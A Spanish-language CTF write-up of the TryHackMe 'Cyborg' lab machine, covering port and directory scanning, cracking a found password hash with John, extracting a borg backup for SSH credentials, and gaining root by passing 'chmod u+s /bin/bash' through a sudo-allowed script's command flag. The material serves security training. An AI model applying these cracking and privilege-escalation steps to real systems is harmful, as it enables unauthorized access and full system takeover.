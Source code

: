 ```yaml
---
layout: single
title: Cyborg - TryHackMe
excerpt: " A box involving encrypted archives, source code analysis and more. "
date: 2023-02-10
classes: wide
header:
  teaser: /blog/assets/images/thm-writeup-cyborg/cyborg.jpeg
  teaser_home_page: true
  icon: /blog/assets/images/tryhackme.webp
categories:
  - tryhackme
tags:
  - John
  - borg
  - sudoers
  - bash
  - code
---
```


A box involving encrypted archives, source code analysis and more.

# Summary
- IP: 10.10.84.132
- Ports: 22,80
- OS: Linux (Ubuntu)
- Services & Applications:
	-  22 -> OpenSSH 7.2p2 Ubuntu 4ubuntu2.10
	-  80 -> Apache httpd 2.4.18

# Recon

- Escaneo básico de puertos:

```bash
$nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.84.132 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```bash
$nmap -p22,80 -sCV 10.10.84.132 -oN targeted
```

- Escaneo de directorios con gobuster:

```bash
$gobuster dir -u 10.10.84.132 -w /usr/share/SecLists/Discovery/Web-Content/common.txt -t 100
```


# Análisis de página web:

- En la página principal, no encontramos nada interesante.

- En el análisis de directorio hecho con gobuster, encontramos lo siguientes: "/admin" y "/etc" así que los analizamos.

- En "/admin" analizando el código fuente, encontramos un archivo "/admin/archive.tar" lo descargamos.

- En "/etc"nos encontramos una posible credencial:

```
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```


# Cracking de hash con John:

- Guardamos el hash en un archivo de texto "hash.txt"

```
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```

- Ejecutamos john para descifrar la contraseña y obtenemos lo siguiente:

```bash
$john hash.txt -w:/usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

```
music_archive:squidward
```



# Uso de Borg para recuperar un repositorio:

**NOTA:** Descargar el binario de "borg" y contemplarlo en el PATH para poder realizar los siguientes pasos sin problema.


- Si descomprimimos el archivo "archive.tar" anteriormente descargado, nos encontramos con varios subdirectorios, entramos hasta llegar al "README", nos damos cuenta que se trata de un repositorio creado como backup cifrado haciendo uso de un programa denominado "borg", en el mismo "README" encontramos un link con la documentación de dicho programa, lo analizamos.

- En la sección de "usage" encontramos el comando que sirve para poder extraer o recuperar los datos de un repositorio cifrado con dicho programa:

```bash
$borg extract /path/to/repo::my-files
```

- El comando nos pide el directorio completo en el que se encuentra el repo que queremos descifrar y extraer, además del nombre de archivo, el cual ya habíamos obtenido uno potencial.

- Adecuamos el comando, en este caso, usando la información que hemos recolectado hasta ahora:

```bash
$borg extract /home/dante/Tryhackme/Cyborg/content/home/field/dev/final_archive::music_archive
```


- Vemos que se nos creó un directorio "home" el cual al entrar contiene el directorio "alex", al parecer se trata del home de un usuario potencial de la máquina, así que con un "tree" desglosamos todo lo que contienen los directorios y subdirectorios:

```bash
$tree
── alex
    ├── Desktop
    │   └── secret.txt
    ├── Documents
    │   └── note.txt
    ├── Downloads
    ├── Music
    ├── Pictures
    ├── Public
    ├── Templates
    └── Videos
```

- Leemos el archivo "note.txt" y vemos que hay una credencial para el usuario "alex" lo usamos y ganamos acceso al sistema por SSH.

```bash
$ssh alex@10.10.84.132
```

# ESCALANDO PRIVILEGIOS:


- Vemos permisos de sudoers y encontramos lo siguiente:

```bash
$sudo -l
```

```
User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

- Es decir, podemos ejecutar con sudo como cualquier usuario del sistema sin contraseña la script "backup.sh".

- Analizamos dicha script y vemos que hace por detrás:

```
$cat /etc/mp3backups/backup.sh
```

```bash
#!/bin/bash

sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt


input="/etc/mp3backups/backed_up_files.txt"
#while IFS= read -r line
#do
  #a="/etc/mp3backups/backed_up_files.txt"
#  b=$(basename $input)
  #echo
#  echo "$line"
#done < "$input"

while getopts c: flag
do
	case "${flag}" in 
		c) command=${OPTARG};;
	esac
done

backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3"

# Where to backup to.
dest="/etc/mp3backups/"

# Create archive filename.
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd
```

- Al final de la script vemos que con el comando "cmd" ejecuta lo que contiene la variable "command", buscamos en el código donde se manipula dicha variable y encontramos que dentro de un while, se le está asignando valor:

```bash
while getopts c: flag
do
	case "${flag}" in 
		c) command=${OPTARG};;
	esac
done
```

- Nos damos cuenta que la script admite una flag "-c" la cual guardará lo que le mandemos por teclado en la variable "command", entonces, con lo que hemos analizado en el punto anterior, podemos concluir que la script, mediante la flag "-c" permite la ejecución del comando que le pasemos, como podemos ejecutar la script como sudo, todo lo que se realice se hará como root, entonces aprovechamos para darle permiso SUID a la bash:

```bash
$sudo /etc/mp3backups/backup.sh -c "chmod u+s /bin/bash"
```

- Ahora ejecutamos la bash con privilegios y seremos root:

```bash
$bash -p
```


